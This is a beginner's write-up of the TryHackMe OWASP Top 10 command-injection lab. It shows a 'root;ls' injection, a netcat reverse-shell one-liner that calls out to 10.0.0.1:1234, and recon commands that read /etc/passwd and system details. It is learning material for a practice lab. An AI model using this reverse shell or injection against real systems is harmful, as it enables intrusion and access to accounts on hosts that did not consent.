








# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 

#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)
#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 

but if i enter "root" the page will print a message with success

so now i will try yo inject it with a username and  command "root;ls"

the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 

the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 

to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 

maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 

### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 

but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 

in the end of the file the mention a type of drink 

thanks 

